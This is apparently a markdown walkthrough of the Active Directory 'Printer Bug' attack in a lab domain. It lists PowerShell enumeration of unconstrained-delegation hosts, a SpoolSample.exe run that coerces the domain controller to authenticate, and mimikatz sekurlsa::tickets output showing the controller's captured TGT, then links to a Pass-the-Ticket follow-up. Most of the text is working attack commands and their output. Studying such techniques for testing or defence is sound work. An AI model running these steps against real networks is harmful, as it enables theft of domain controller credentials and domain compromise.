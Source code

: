 
# Printer Bug

there is 2 device :

pc-win10 unconstrained delegation enabled and compromised

odin - Domain controller

we will force DC to authenticate pc-win10 and will extract TGT from memory

checking delegation rights

	PS C:\Users\Administrator> Get-ADComputer -Filter {TrustedForDelegation -eq $true -and primarygroupid -eq 515} -Properti
	es trustedfordelegation,serviceprincipalname,description


	Description          :
	DistinguishedName    : CN=PC-WIN10,OU=dirtyComputers,DC=valhalla,DC=local
	DNSHostName          : pc-win10.valhalla.local
	Enabled              : True
	Name                 : PC-WIN10
	ObjectClass          : computer
	ObjectGUID           : fdeb115b-fa2a-4948-b65a-f44eae75ad1c
	SamAccountName       : PC-WIN10$
	serviceprincipalname : {TERMSRV/PC-WIN10, TERMSRV/pc-win10.valhalla.local, RestrictedKrbHost/PC-WIN10,
						   HOST/PC-WIN10...}
	SID                  : S-1-5-21-3410397846-649609989-2919355437-2124
	TrustedForDelegation : True
	UserPrincipalName    :
	
	
Check memory for TGT , there is no TGT in memory

	sekurlsa::tickets /export

Force DC to authenticate pc-win10

	PS C:\Users\testuser\Desktop> .\SpoolSample.exe odin pc-win10
	[+] Converted DLL to shellcode
	[+] Executing RDI
	[+] Calling exported function
	TargetServer: \\odin, CaptureServer: \\pc-win10
	Attempted printer notification and received an invalid handle. The coerced authentication probably worked!


Check TGT in memory

	sekurlsa::tickets
	Authentication Id : 0 ; 879231 (00000000:000d6a7f)
	Session           : Network from 0
	User Name         : ODIN$
	Domain            : VALHALLA
	Logon Server      : (null)
	Logon Time        : 25/08/2021 19:44:42
	SID               : S-1-5-21-3410397846-649609989-2919355437-1001

	* Username : ODIN$
	* Domain   : VALHALLA.LOCAL
	* Password : (null)

	Group 0 - Ticket Granting Service

	Group 1 - Client Ticket ?

	Group 2 - Ticket Granting Ticket
	[00000000]
	Start/End/MaxRenew: 25/08/2021 19:05:53 ; 26/08/2021 05:05:53 ; 01/09/2021 19:05:53
	Service Name (02) : krbtgt ; VALHALLA.LOCAL ; @ VALHALLA.LOCAL
	Target Name  (--) : @ VALHALLA.LOCAL
	Client Name  (01) : ODIN$ ; @ VALHALLA.LOCAL
	Flags 60a10000    : name_canonicalize ; pre_authent ; renewable ; forwarded ; forwardable ;
	Session Key       : 0x00000001 - des_cbc_crc
	0c2bd7c1b7134a68478aa67e76cda120e73688273c8745388fe89cb82823b586
	Ticket            : 0x00000012 - aes256_hmac       ; kvno = 2        [...]


Rest

[Pass the Ticket](https://github.com/vanhohen/ADNinja/blob/main/Tutorials/Pass%20the%20Ticket.md)
